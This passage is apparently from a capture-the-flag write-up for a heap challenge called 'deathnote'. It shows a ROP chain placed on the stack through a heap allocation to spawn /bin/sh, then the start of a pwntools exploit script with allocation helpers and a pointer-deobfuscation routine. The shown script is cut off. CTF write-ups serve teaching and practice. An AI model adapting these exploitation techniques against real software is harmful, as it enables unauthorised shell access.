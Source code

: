 ```python
malloc(7, 0x68, "G"*0x68)  


pop_rdi = p64(libc.address + 0x001bbea1)
ret = p64(libc.address + 0x001bc065)

chain =  p64(stack_leak - 424) + ret + pop_rdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.sym['system'])

malloc(7, 0x68, chain) #Stack allocation 
```   

This is how the stack looks after writing ROP chain on it 

![](image-3.png)  

Then as soon as we return from the `add()` function the `rip` will get into the chain, thus popping a shell. 

## Complete Exploit  

```python
from pwn import *
import warnings
warnings.filterwarnings("ignore")

elf = context.binary = ELF('./deathnote')
libc = ELF('./glibc/libc.so.6')

context.log_level = 'debug'
p = elf.process()

def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def malloc(idx, size, data):
    p.sendlineafter("_-_-_-_-", "1")
    p.sendlineafter("request?", str(size))
    p.sendlineafter("Page?", str(idx).encode())
    p.sendlineafter("victim:", data)

def free(idx):
    p.sendlineafter("_-_-_-_-", "2")
    p.sendlineafter("Page?", str(idx).encode())

def view(idx):
    p.sendlineafter("_-_-_-_-", "3")
```